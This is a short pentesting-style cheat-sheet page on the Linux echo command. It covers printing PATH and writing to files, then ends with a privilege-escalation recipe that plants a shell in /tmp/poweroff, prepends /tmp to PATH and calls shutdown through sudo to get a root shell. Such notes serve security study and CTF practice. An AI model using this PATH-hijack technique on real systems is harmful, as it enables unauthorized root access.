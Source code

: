 ```yaml
---
title: Echo
desc: In addition to the output of string, there are other uses such as the privileges escalation.
tags: [Linux, PrivEsc]
alts: []
website:
---
```


## Directories specified by PATH

```sh
echo $PATH
```

<br />

## Add text to file

```sh
# Add text
echo "Hello World" >> sample.txt

# Overwrite (original contents disappears)
echo "Hello World" > sample.txt

# Enable escape
echo -e "Hello\nWorld" > sample.txt

# No newline
echo -n 'hello world' > sample.txt
```

<br />

## Privilege Escalation

```sh
# option 1
echo /bin/sh > /tmp/poweroff
# option 2
echo /bin/bash > /tmp/poweroff

chmod +x /tmp/poweroff
export PATH=/tmp:$PATH

# Some SUID command
sudo /usr/sbin/shutdown

# Then you are root user
root>
```